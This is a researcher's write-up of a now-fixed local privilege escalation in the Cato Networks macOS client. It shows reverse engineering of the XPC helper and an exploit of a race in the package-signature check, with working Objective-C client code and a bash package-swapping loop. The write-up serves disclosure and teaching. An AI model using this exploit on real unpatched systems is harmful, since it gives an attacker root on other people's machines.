# Introduction

A couple of months ago, I have found Local Privilege Escalation vulnerability inside of CatoNetworks macOS application which is fixed in the version
5.4.0. We will see how to exploit the simple race condition in order to achieve escalation of privileges to _root_ user.

# Analysis

After examining `~/Library/LaunchDaemons/com.catonetworks.mac.CatoClient.helper.plist` we can see that the Mach service name is `com.catonetworks.mac.client.daemon` and 
the binary it runs is `/Library/Application Support/CatoNetworks/com.catonetworks.mac.CatoClient.helper`. We will take a note of the Mach service name because we will need 
it to communicate with the XPC service.



After we have obtained some limited information, we need to load the main binary in _Hopper_ to analyze what is happening and to check whether there are any vulnerabilities.

Searching for `listener:shouldAcceptNewConnection` revealed that the exported protocol is `_TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_`.



Running class dump showed that this protocol contains a single method `- (void)installPackageAtPath:(NSString *)arg1 withCompletion:(void (^)(BOOL))arg2;`.



Based on the name, we can conclude that we need to provide the path to the `.pkg` file and we can check whether we have succeeded or not based on the reply block.

If we now search for implementation of this method, we can see that it calls function `sub_100002b7c`.





Analyzing the `sub_100002b7c` function, we can see that it checks whether `sub_1000027b0` returned successfully, followed by creation of `NSTask` (to run programs).



Near the end of the function, there is another check which confirms whether probably the output of the run NSTask contains `\norigin=Developer ID Installer: Cato Networks Ltd (CKGSB8CH43)`.



We will now create a minimal objc code to communicate with the service, and we will examine the arguments passed to `-[NSTask setLaunchPath:]` and `-[NSTask setArguments:]` methods with debugger (lldb).

The objc code:

```objc
// gcc cato.m -o cato -framework Foundation
#import <Foundation/Foundation.h>

static NSString * serviceName = @"com.catonetworks.mac.client.daemon";

@protocol _TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_
- (void)installPackageAtPath:(NSString *)arg1 withCompletion:(void (^)(BOOL))arg2;
@end

int main(int argc, const char **argv) {
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithMachServiceName:serviceName options:4096];

    [conn setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(_TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_)]];
    [conn resume];

    id obj = [conn remoteObjectProxyWithErrorHandler:^(NSError * error) {
           NSLog(@"Error: %@", error);
    }];

    NSString * pkgPath = [NSString stringWithCString:argv[1] encoding:NSASCIIStringEncoding];

    [obj installPackageAtPath:pkgPath withCompletion:^(BOOL succeeded) {
        if (succeeded) {
            NSLog(@"Exploit succeeded; check /tmp/himynameis");
        } else {
            NSLog(@"Exploit failed; please try again");
        }
    }];

    dispatch_main();
    return 0;
}
```

While inside of `lldb` we want to set the breakpoints and examine the arguments. Compiling the above code and running it as `./cato nsecho` gives the following 
inside of lldb.



From the lldb output we can conclude that the service is calling `/usr/sbin/spctl` with the arguments `-a -vvv -t install PACKAGE_PATH_WE_PROVIDED`. `spctl` is used to check notorization on the pkg files.

Running the exact command on the legitimate CatoNetworks package returns the output which contains the string we found earlier (`\norigin=Developer ID Installer: Cato Networks Ltd (CKGSB8CH43)`).



So far we now the following:

* Services uses `_TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_` protocol
* We need to call `installPackageAtPath:pkgPath withCompletion:`
* Service checks whether the app is notorized by the Cato using `spctl`
* Gets installed if the previous check was successful

It seems that there is no way to exploit it, but after running spctl, I have noticed that it doesn't return immediately, it takes a couple of milliseconds, meaning that we have 
potential race condition here.



To exploit this, we need to do the following:

* Run the exploit, providing the path to the legitimate Cato pkg file
* Wait a bit
* Replace the legitimate Cato pkg file with the malicious one
* Local Privilege Escalation

I will just add a simple command in the `postinstall` scripts which writes the current user to `/tmp/himynameis` file.



_The exploit bash script:_

```bash
#!/bin/bash

ORIGINAL=/Users/demon/Downloads/CatoClient-2.pkg
FAKE=/Users/demon/Downloads/exploit.pkg
TEMP=/tmp/expl.pkg

while [ true ]
do
    cp "${ORIGINAL}" "${TEMP}"

    ./cato "${TEMP}" &
    sleep 0.1
    cp "${FAKE}" "${TEMP}"
    sleep 4
    stat /tmp/himynameis > /dev/null 2>&1 && exit 0
done
```


